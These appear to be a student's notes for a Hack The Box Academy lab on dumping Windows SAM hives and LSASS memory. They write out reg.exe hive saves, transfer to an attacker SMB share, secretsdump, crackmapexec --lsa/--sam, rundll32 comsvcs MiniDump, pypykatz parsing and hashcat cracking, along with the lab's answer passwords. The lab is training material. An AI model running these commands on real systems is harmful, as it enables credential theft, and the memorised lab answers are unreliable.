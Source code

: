 # Attacking SAM & LSASS

## Attacking SAM

With access to a non-domain joined Windows system, we may benefit from attempting to quickly dump the files associated with the SAM database to transfer them to our attack host and start cracking hashes offline.

There are three registry hives that we can copy if we have local admin access on the target ->

<table><thead><tr><th width="182">Registry Hive</th><th>Description</th></tr></thead><tbody><tr><td><code>hklm\sam</code></td><td>Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.</td></tr><tr><td><code>hklm\system</code></td><td>Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.</td></tr><tr><td><code>hklm\security</code></td><td>Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.</td></tr></tbody></table>

We can create backups of these hives using the `reg.exe` utility.

```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
```

Once the hives are saved offline, we can use various methods to transfer them to our attack host. In this case, let's use [Impacket's smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)

```shell-session
ElFelixi0@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

Once we have the share running on our attack host, we can use the `move` command on the Windows target to move the hive copies to the share.

```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
```

And then once everything is on the attackbox we can dump it using secretsdump ->

```shell-session
ElFelixi0@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

we can copy the NT hashes associated with each user account into a text file and start cracking passwords.

```shell-session
ElFelixi0@htb[/htb]$ sudo vim hashestocrack.txt

64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
<SNIP>
```

and in hashcat ->

```shell-session
ElFelixi0@htb[/htb]$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

### Remote Dumping

Using crackmapexec (better to use netexec but in the course it will be cme) we can extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords.

```shell-session
ElFelixi0@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

**Dumping SAM Remotely**

```shell-session
ElFelixi0@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

_**Apply the concepts taught in this section to obtain the password to the ITbackdoor user account on the target. Submit the clear-text password as the answer.**_

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
hashcat -m 1000 realnthash.txt /usr/share/wordlists/rockyou.txt.gz
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>c02478537b9727d391bc80011c2e2321:matrix</p></figcaption></figure>

_**Dump the LSA secrets on the target and discover the credentials stored. Submit the username and password as the answer.**_

```
crackmapexec smb 10.129.202.137 --local-auth -u Bob -p HTB_@cademy_stdnt! --lsa
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Attacking LSASS

LSASS is a critical service that plays a central role in credential management and the authentication processes in all Windows operating systems.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

LSASS will:

* Cache credentials locally in memory
* Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
* Enforce security policies
* Write to Windows [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)

With access to an interactive graphical session with the target, we can use task manager to create a memory dump.

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><code>Open Task Manager</code> > <code>Select the Processes tab</code> > <code>Find &#x26; right click the Local Security Authority Process</code> > <code>Select Create dump file</code></p></figcaption></figure>

And a file will be created here ->

```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

And we can transfer the file to our local machine just like the sam one.

### Rundll32

We can use an alternative method to dump LSASS process memory through a command-line utility called [rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32). This way is faster than the Task Manager method and more flexible because we may gain a shell session on a Windows host with only access to the command line.

we must determine what process ID (`PID`) is assigned to `lsass.exe` throught cmd or powershell

_**CMD:**_

```cmd-session
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
<SNIP>
lsass.exe                      672 KeyIso, SamSs, VaultSvc
```

_**Powershell:**_

```powershell-session
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

And then we can use rundll ->

```powershell-session
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

we are running `rundll32.exe` to call an exported function of `comsvcs.dll` which also calls the MiniDumpWriteDump (`MiniDump`) function to dump the LSASS process memory to a specified directory (`C:\lsass.dmp`) and we can transfer that file to attackbock just like the others.

### Pypykatz to Extract Credentials

Now that we have our dmp file we can use [pypykatz](https://github.com/skelsec/pypykatz) to attempt to extract credentials from the .dmp file.

```shell-session
ElFelixi0@htb[/htb]$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```

The output will looksomething like this ->

```shell-session
<SNIP>
== LogonSession ==
authentication_id 1354581 (14ab55)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354581
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
	== WDIGEST [14ab55]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
	== WDIGEST [14ab55]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
<SNIP>	
```

Now we can use Hashcat to crack the NT Hash.

```shell-session
ElFelixi0@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

_**Apply the concepts taught in this section to obtain the password to the Vendor user account on the target. Submit the clear-text password as the answer.**_

<figure><img src="../../../../.gitbook/assets/image (1455).png" alt=""><figcaption><p>C:\Users\HTB-ST~1\AppData\Local\Temp\lsass.DMP</p></figcaption></figure>

```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/htb-ac-1032889/Documents/
```

<figure><img src="../../../../.gitbook/assets/image (1456).png" alt=""><figcaption></figcaption></figure>

```
pypykatz lsa minidump lsass.DMP
```

<figure><img src="../../../../.gitbook/assets/image (1457).png" alt=""><figcaption><p>31f87811133bc6aaa75a536e77f64314</p></figcaption></figure>

```
hashcat -m 1000 31f87811133bc6aaa75a536e77f64314 /usr/share/wordlists/rockyou.txt.gz
```

<figure><img src="../../../../.gitbook/assets/image (1458).png" alt=""><figcaption><p>31f87811133bc6aaa75a536e77f64314:Mic@123</p></figcaption></figure>

